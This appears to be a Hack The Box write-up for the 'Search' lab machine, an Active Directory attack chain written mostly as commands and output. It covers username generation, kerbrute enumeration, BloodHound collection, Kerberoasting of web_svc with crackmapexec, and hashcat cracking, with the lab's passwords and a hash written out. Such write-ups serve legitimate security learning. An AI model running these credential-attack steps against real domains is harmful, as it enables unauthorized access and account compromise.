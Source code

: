 We find some usernames on the web page and from the img. Also there is a password on the img.

![Untitled](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Search/image_on_the_side.png)

Password: IsolationIsKey?

```
Hope Sharp
Keely Lyons
Dax Santiago
Sierra Frye
Kyla Stewart
Kaiara Spencer
Dave Simpson
Ben Thompson
Chris Stewart
```

Crate a user list

- `ruby username-anarchy -f first,first.last,last,flast -i tmp.txt`
- `kerbrute userenum --dc research -d search.htb users.txt`

```
keely.lyons
sierra.frye
dax.santiago
hope.sharp
```

We can login with [hope.sharp](http://hope.sharp) : IsolationIsKey? to smb and ldap

# Bloodhound

- `/opt/WIN/BloodHound/bloodhound.py -ns 10.129.229.57 -c all -d search.htb -u hope.sharp -p 'IsolationIsKey?' --zip`

## Analyse

### Kerberoastable Accounts

User: web_svc

- `crackmapexec ldap research.search.htb -u web_svc -p '' --kerberoasting kerberoasting.out`

```
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$674346d0aea ...
```

- `hashcat -m 13100 kerberoasting.out /usr/share/wordlists/rockyou.txt`

`web_svc : @3ONEmillionbaby`

### Create Users lists from domain users

- `cat 20231021144226_users.json | jq '.data[].Properties | select( .description != null) | .name + ":" + .description' -r > domain_users.txt`
    